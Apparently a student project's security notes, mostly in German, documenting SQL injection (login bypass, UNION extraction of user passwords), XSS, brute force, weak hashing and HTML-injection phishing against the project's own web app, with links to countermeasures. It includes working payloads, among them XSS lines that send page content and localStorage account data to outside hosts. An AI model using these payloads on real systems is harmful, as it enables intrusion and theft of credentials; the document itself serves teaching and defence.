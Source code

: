 # SQL Injections
1. Um einen Hinweis darauf zu erlangen, wie die SQL-Query aussieht, welche für den Login verwendet wird kann man `"` in das login-feld eingeben. Aus dem Error, kann dann die Query entnommen werden.
2. Mit dem erlangten Wissen kann nun der Angriff durchgeführt werden, indem folgendes 
`" OR 1 = 1 # ` in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

### Union Attack 
1. Die verwendete Query, für die Suche, kann herausgefunden werden, indem man `%'` in das suchfeld postet. Man bekommt hier dann eine Fehlermeldung zurück welche einem einen Hinsweis darauf gibt, wie die SQL-Query aussieht die verwendet wird.
2. Für einen "UNION" befehl müssen die Select-Statements derer Ergebnisse zurück gegeben werden sollen, die gleiche Anzahl an Columns haben. Um herauszufinden wie viele columns in dem table (Thread Table) sind der von der Suchfeld-query aufgerufen wird kann folgende query verwendet werden: `%' ORDER BY 4-- `. Die Zahl sollte immer weiter eröht werden, bis ein Error zurück gegeben wird. Sobald das geschieht weiß man dass die verwendete Zahl minus Eins die Anzahl der Columns ist.
3. Weiß man nun also wie viele Columns in dem table enthalten sind kann man die query für die Union-Attack formulieren:
`%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users -- `, wobei die die Anzahl der "NULL" + die Anzahl der gewollten column-names der vorher herausgefundenen Anzahl der Columns entsprechen muss. Das Ergebnis hieraus ist, dass man die normalen Ergebnisse der Such-Query mit dem Select-Statement für den Users Table verbindet um nicht nur die Threads von der Datenbank zurück zu bekommen, sondern eben auch die Ergebnisse aus dem Users Table. In unserem Fall würden wir also auch Ergebnisse aus den "username" und "passw" columns des Users Table zusammen mit den Threads zurück geliefert bekommen.

## Maßnahmen
Escaping query values:
https://github.com/mysqljs/mysql#escaping-query-values (Placeholders: https://mariadb.com/kb/en/connector-nodejs-promise-api/)


# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror= document.body.innerHTML = "<h1>You got hacked</h1>";>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
<img 
  src="https://jnx.me/img/profile.jpg" 
  style="display:none" 
  onload="fetch('https://enj917gkdfyp.x.pipedream.net/', {method: 'POST', body: localStorage.getItem('account')})"
>
```

## Maßnahmen
https://v2.vuejs.org/v2/guide/security.html#:~:text=The%20most%20fundamental%20security%20rule%20when%20using%20Vue,during%20server-side%20rendering.%20An%20example%20of%20such%20usage%3A

https://www.npmjs.com/package/sanitize-html

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

To start the brute-force script navigate to the "Attacks" directory and preform the following command:

```
python -m pip install selenium
python brute-force.py -u admin -t http://localhost:8081/loginPage -p passwords.txt
```

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```

## Maßnahmen
https://www.npmjs.com/package/sanitize-html
